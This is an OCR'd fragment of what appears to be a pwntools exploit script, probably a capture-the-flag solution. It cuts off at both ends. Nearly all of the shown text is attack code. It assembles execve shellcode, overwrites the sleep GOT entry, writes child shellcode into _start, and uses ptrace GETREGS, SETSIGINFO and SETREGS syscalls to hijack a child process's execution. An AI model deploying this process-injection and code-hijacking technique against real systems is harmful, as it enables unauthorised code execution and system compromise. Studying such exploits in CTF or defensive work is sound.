 ```python 
	push	rdi
	push	rsp		
	pop	rdi	
	xor edx,edx
	mov 	eax,59
	syscall
""")
child_shellcode += b"\x90"*(8 - len(child_shellcode) % 8)

for i in range(len(child_shellcode) // 8):
	shellcode += modify(e.sym._start+8*i,u64(child_shellcode[8*i:8*(i+1)]))

shellcode += modify(e.got.sleep,e.sym._start)
shellcode += asm(f"""
mov rdi, {PTRACE_GETREGS}
mov rsi, {child_pid}
mov rdx, 0
lea r10, [rsp+0x100]
mov rax,0x65
syscall

mov rcx,0xff00
l2:
	nop
loop l2

mov rdi,{PTRACE_GETSIGINFO}
mov rsi,{child_pid}
mov rdx,0
mov r10,rsp
mov rax,0x65
syscall

mov rcx,0xff00
l3:
	nop
loop l3

mov qword ptr [rsp],19
mov rdi,{PTRACE_SETSIGINFO}
mov rsi,{child_pid}
mov rdx,0
mov r10,rsp
mov rax,0x65
syscall

mov rcx,0xff00
l4:
	nop
loop l4

mov qword ptr [rsp+0x100+16*8],{e.sym.sleep+2}
mov qword ptr [rsp+0x100+18*8],0
mov rdi, {PTRACE_SETREGS}
mov rsi, {child_pid}
mov rdx, 0
lea r10, [rsp+0x100]
mov rax,0x65
syscall

mov rcx,0xff00
l1:
	nop
```